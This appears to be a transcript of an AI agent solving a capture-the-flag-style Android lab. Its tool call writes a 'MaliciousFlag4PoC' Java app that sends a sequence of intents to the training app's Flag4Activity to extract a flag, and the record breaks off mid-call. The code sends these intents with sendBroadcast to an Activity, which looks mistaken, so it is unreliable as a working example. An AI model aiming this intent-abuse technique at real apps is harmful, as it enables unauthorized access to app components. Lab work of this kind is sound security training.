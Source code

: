 **Plan & Sandbox Check:** I will now write the `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml` files to the project root. This is a write operation to the project directory, which is a common and expected location for PoC files in such challenges.

--- Tool Call ---
write_to_file({'content': 'package com.example.maliciousapp;\n'
            '\n'
            'import android.app.Activity;\n'
            'import android.content.ComponentName;\n'
            'import android.content.Intent;\n'
            'import android.os.Bundle;\n'
            'import android.util.Log;\n'
            'import android.widget.Toast;\n'
            '\n'
            'public class MaliciousFlag4PoC extends Activity {\n'
            '\n'
            '    private static final String TARGET_PACKAGE = '
            '"io.hextree.attacksurface";\n'
            '    private static final String TARGET_ACTIVITY = '
            '"io.hextree.attacksurface.activities.Flag4Activity";\n'
            '\n'
            '    private static final String PREPARE_ACTION = '
            '"PREPARE_ACTION";\n'
            '    private static final String BUILD_ACTION = "BUILD_ACTION";\n'
            '    private static final String GET_FLAG_ACTION = '
            '"GET_FLAG_ACTION";\n'
            '    private static final String INIT_ACTION = "INIT_ACTION"; // '
            'For resetting the state if needed\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC '
            'started.");\n'
            '\n'
            "        // Optional: Reset state to INIT if it's not already, to "
            'ensure a clean run\n'
            '        Intent resetIntent = new Intent(INIT_ACTION);\n'
            '        resetIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(resetIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent reset intent '
            '(INIT_ACTION).");\n'
            '\n'
            '\n'
            '        // Step 1: Send PREPARE_ACTION\n'
            '        Intent prepareIntent = new Intent(PREPARE_ACTION);\n'
            '        prepareIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(prepareIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION.");\n'
            '\n'
            '        // Step 2: Send BUILD_ACTION\n'
            '        Intent buildIntent = new Intent(BUILD_ACTION);\n'
            '        buildIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(buildIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION.");\n'
            '\n'
            '        // Step 3: Send GET_FLAG_ACTION\n'
            '        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);\n'
            '        getFlagIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(getFlagIntent);\n'